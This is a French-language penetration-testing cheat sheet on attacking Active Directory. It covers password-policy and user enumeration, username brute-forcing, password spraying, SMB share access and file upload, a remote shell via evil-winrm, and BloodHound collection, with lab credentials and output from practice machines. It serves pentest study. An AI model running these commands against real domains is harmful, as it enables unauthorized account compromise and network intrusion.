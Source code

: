 ```yaml
---
public: true 
#Tags: tag1, tag2
---
```


## Récupération d'informations Active Directory et partages



## Politique de mot de passe

### SMB
```shell
# crackmapexec
cme smb $TARGET_IP -u "sql_svc" -p "qsdqsd" -d "domain"  --pass-pol | cut -c60-

# enum4linux
enum4linux -u "" -p "" -P $TARGET_IP

# rpcclient
rpcclient -U "" -N $TARGET_IP
$> querydominfo

```

### LDAP

```shell
# ldapsearch
ldapsearch -h $TARGET_IP -x -b "DC=DOMAIN,DC=LOCAL" -s sub "*" | grep -m 1 -B 10 pwdHistoryLength
```

## Découverte de comptes utilisateurs

### Listing

#### SMB

```shell
# crackmapexec
cme smb $TARGET_IP -u $AD_USER -p $AD_PASSWORD --users | tr -s ' ' | tail -n +4 | cut -d ' ' -f 5 | cut -d '\' -f 2 | tee users.txt
```
```shell
# enum4linux
enum4linux -u "" -p "" -U $TARGET_IP | grep user: | cut -d '[' -f2 | cut -d ']' -f1  | tee users.txt

# rpcclient
rpcclient -U "" -N $TARGET_IP -c 'enumdomusers;quit' | grep user: | cut -d '[' -f2 | cut -d ']' -f1  | tee users.txt
```

#### LDAP

```shell
# crackmapexec
cme ldap -u $AD_USER -p $AD_PASSWORD $TARGET_IP -dc-ip $TARGET_IP --users

# ldapsearch
ldapsearch -h $TARGET_IP -x -b "DC=DOMAIN,DC=LOCAL" -s sub "(&(objectclass=user))"  | grep sAMAccountName: | cut -d ' ' -f2
```

### Découverte par bruteforce

On pourra utiliser la liste des noms d'utilisateurs les plus communs provenant de https://github.com/insidetrust/statistically-likely-usernames
Par exemple le fichier : https://raw.githubusercontent.com/insidetrust/statistically-likely-usernames/master/jsmith.txt

```shell
# kerbrute
kerbrute userenum -d DOMAIN.LOCAL --dc $TARGET_IP userbiglist.Txt
```

Cet utilitaire tente très rapidement tous les mots de passes de la liste.
Il ne génère par d'évènement dans un AD configuré avec les options par défaut.


## Attaques sur des comptes utilisateurs

Lorsqu'on dispose d'une liste de comptes utilisateurs, on peut ensuite essayer de trouver leur mots de passe associés.

### Password Spraying

**Attention** :
- toujours vérifier la politique de mot de passe en place (voir plus haut) avant de tenter un password spraying.
- ne pas tenter le nombre maximum de tentatives autorisées !
- `cme [...] --users`  affiche le nombre de mauvaise saisie des compteurs d'authentification (a exécuter sur le PDC emulator pour avoir l'information centralisée de tous les DCs)

Attaque à partir d'une liste d'utilisateurs avec un mot de passe `$AD_PASSWORD`

```shell
# crackmapexec
cme smb $TARGET_IP -u users.txt -p $AD_PASSWORD --continue-on-success | grep '+'

# rpcclient
for u in $(cat users.txt);do rpcclient -U "$AD_PASSWORD" -c "getusername;quit" $TARGET_IP | grep Authority; done

# kerbrute
kerbrute passwordspray -d $AD_DOMAIN --dc $TARGET_IP users.txt  "$AD_PASSWORD"
```


#### Partages
##### Enumération

```shell
cme smb $TARGET -u "" -p "" --shares
cme smb $TARGET_IP -u "sql_svc" -p "REGGIE1234ronnie" -d "sequel"  --shares | cut -c60-
```

```shell
# 
cme smb $TARGET_IP  -u 'guest' -p '' --shares | cut -c60-
      [*] Windows 10.0 Build 17763 x64 (name:DC) (domain:sequel.htb) (signing:True) (SMBv1:False)
      [+] sequel.htb\guest: 
      [+] Enumerated shares
      Share           Permissions     Remark
      -----           -----------     ------
      ADMIN$                          Remote Admin
      C$                              Default share
      IPC$            READ            Remote IPC
      NETLOGON                        Logon server share 
      Public          READ            
      SYSVOL                          Logon server share 
# Authentification NULL
enum4linux -a -u "" -p "" $TARGET_IP

enum4linux-ng -A -R -C <IP>

# Authentification avec le compte Guest (si non désactivé)
enum4linux -a -u "guest" -p "" $TARGET_IP

# liste des partage avec type d'accès (lecture / écrite / rien)
smbmap -u $AD_USER -p $AD_PASSWORD -d $AD_DOMAIN -H $TARGET_IP
```


### Accès à un partage 

#### smbclient.py
```shell
smbclient.py -no-pass $TARGET_IP  # null bind
smbclient.py "$AD_DOMAIN/$AD_USER:$AD_PASSWORD@$TARGET_IP"    

smbclient.py guest@sequel.htb
Password:       <==== Appuyer sur Entrer
# shares        <==== liste les partages
# use <share name>  <=== se connecte à ce partage
# ls / cd  / cat [...]
```

#### smbclient
```
smbclient -U guest%'' //$TARGET_IP/WorkShares 

# null authentication
smbclient -N -L //$TARGET_IP   # liste les partages
```
#### smbmap
```shell
# Liste des partages 
smbmap -u "" -p "" -H $TARGET_IP   

# Liste de façon récursive les fichiers d'un partage (indique si les droits sont en écriture ou en lecture)
smbmap -u $AD_USER -p $AD_PASSWORD -d $AD_DOMAIN -H $TARGET_IP -R "$SHARE/"

# Téléchargement d'un fichier 
$ smbmap -u "" -p "" -H $TARGET_IP --download  "sambashare\contents\flag.txt"

# Upload d'un fichier 
smbmap -u $AD_USER -p $AD_PASSWORD -d $AD_DOMAIN -H $TARGET_IP --upload desktop.ini Share/desktop.ini
```


### Explorer les partages 

```bash
# Lister tous les fichiers de tous les partages
rm -rf /tmp/cme_spider_plus # dossier contenant les résultats du module spider_plus
cme smb $TARGET_IP -u $AD_USER -p "$AD_PASSWORD" -M spider_plus 
cat /tmp/cme_spider_plus/*.json | jq '. | to_entries | .[] | {share: .key, file: .value | to_entries | .[].key} | "\(.share) | \(.file)"' | tee $TARGET_IP-share_files.txt

```

## Shell
```shell
# Vérification d'accès WINRM
cme winrm $TARGET_IP -u "$AD_USER" -p "$AD_PASSWORD" -d "$AD_DOMAIN"  | cut -c60-
2     [*] http://10.10.11.202:5985/wsman
2     [+] sequel.htb\Ryan.Cooper:NuclearMosquito3 (Pwn3d!)

# Obtention du shell via evil-winrm
evil-winrm -i $TARGET_IP -u "$AD_USER" -p "$AD_PASSWORD"
```

## Bloodhound
```
# Bloodhound python injector available as a docker image (python2)
sudo docker run --rm -v ${PWD}:/bloodhound-data -it bloodhound 
$ bloodhound-python  -u 'svc_apache' -p 'S@Ss!K@*t13' -c All -d 'flight.htb' -v -ns 10.10.11.187
```


